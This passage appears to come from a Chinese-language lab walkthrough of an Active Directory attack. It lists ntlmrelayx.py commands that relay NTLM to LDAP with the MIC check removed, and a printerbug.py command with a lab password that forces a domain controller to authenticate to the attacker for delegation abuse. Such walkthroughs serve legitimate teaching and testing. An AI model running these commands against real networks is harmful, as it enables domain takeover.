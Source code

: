 然后在安全研究员机器 10.211.55.2 上执行如下命令进行监听

```
#目标域不支持 ldaps 的话，可以使用如下命令，指定刚刚创建的机器账号 machine$。
python3 ntlmrelayx.py -t ldap://10.211.55.4 -smb2support --remove-mic --delegate-access --escalate-user machine\$

#目标域支持 ldaps 的话，可以使用如下命令，会自动创建机器账号。
python3 ntlmrelayx.py -t ldaps://10.211.55.4 -smb2support --remove-mic --delegate-access
```

参数含义如下：

- -t 参数将认证凭据中继到指定 ldap
- -smb2support 参数用于支持 SMB2 协议
- --remove-mic 参数用于绕过 NTLM 的 MIC 消息完整性校验
- --delegate-access 参数用于指定委派
- –escalate-user 参数指定需要赋予委派权限的用户

如图所示，安全研究员运行命令进行监听：

![截图](8c95976b22a136e86ddc21078f275a8e.png)

接着安全研究员使用 printerbug.py 脚本执行如下命令，使用 xie\hack 用户连接域控制器 AD02，触发域控制器 AD02 的 Print Spooler Bug，该 bug 会强制触发目标域控制器 AD02 10.211.55.5 向指定的安全研究员机器 10.211.55.2 机器进行NTLM 认证。

```
python3 printerbug.py xie.com/hack:P@ss1234@10.211.55.5 10.211.55.2
```

如图所示，安全研究员使用打印机漏洞强制触发目标域控制器 AD02 10.211.55.5向指定的安全研究员机器 10.211.55.2 机器进行 NTLM 认证。

![截图](2d2edc465daa5e8926b18444de771970.png)

然后安全研究员就可以收到目标域控 AD02 服务器发过来的 NTLM 认证流量了，再将此 NTLM 认证流量绕过 NTLM 的 MIC 消息完整性校验后通过修改 LDAP 协商数据包中的相应标志位来使得协商不需要签名。再通过 LDAP 协议中继给域控AD01，LDAP 中执行的高权限操作是赋予指定机器用户 machine$对域控制器AD02 的基于资源的约束性委派。
